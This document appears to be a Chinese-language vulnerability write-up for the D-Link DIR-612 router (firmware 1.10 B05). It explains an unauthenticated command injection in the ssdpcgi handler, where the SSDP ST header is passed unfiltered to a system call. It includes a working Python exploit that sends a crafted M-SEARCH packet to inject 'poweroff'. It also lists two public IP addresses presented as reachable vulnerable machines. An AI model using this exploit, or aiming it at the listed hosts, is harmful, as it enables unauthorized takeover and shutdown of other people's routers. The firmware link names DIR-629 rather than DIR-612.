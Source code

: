 # DIR-612

**产品型号**: D-Link DIR-612（硬件版本A1）

**固件版本**: 1.10 B05

**厂家官网**: http://www.dlink.com.cn/

**固件地址**: http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-629

![image-20210317223351729](https://gitee.com/mrskye/Picbed/raw/master/img/20210317223358.png)

## 漏洞信息

漏洞二进制文件：`/htdocs/cgibin`

漏洞函数：`ssdpcgi_main` 

在处理 /ssdpcgi 时，SERVER_ID 的值用于拼接 `%s services %s:%s %s %s &` ，该字符串随后被传入 lxmldbc_system 进行系统调用。由于没有对 SERVER_ID 进行过滤，因此存在注入命令，实现 rce 。

![image-20210317223754651](https://gitee.com/mrskye/Picbed/raw/master/img/20210317223754.png)

## EXP

这个接口是 socket 服务，不能通过 web 访问

```python
import sys
import os
import socket
from time import sleep

ip = "192.168.0.1"
port = 1900
command = "poweroff"

sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)

payload = "M-SEARCH * HTTP/1.1\n"
payload += "HOST:"+str(ip)+":"+str(port)+"\n"
payload += "ST:urn:device:1;{}\n".format(command)
payload += "MX:2\n"
payload += 'MAN:"ssdp:discover"'+"\n\n"

sock.sendto(payload,(ip, port))
```

> 公网机器：
>
> http://122.225.206.91:8333/
>
> http://112.118.247.147:8080/

## 参考资料

https://medium.com/@s1kr10s/d-link-dir-859-unauthenticated-rce-in-ssdpcgi-http-st-cve-2019-20215-en-2e799acb8a73

https://xz.aliyun.com/t/5468#toc-2

https://www.anquanke.com/post/id/94289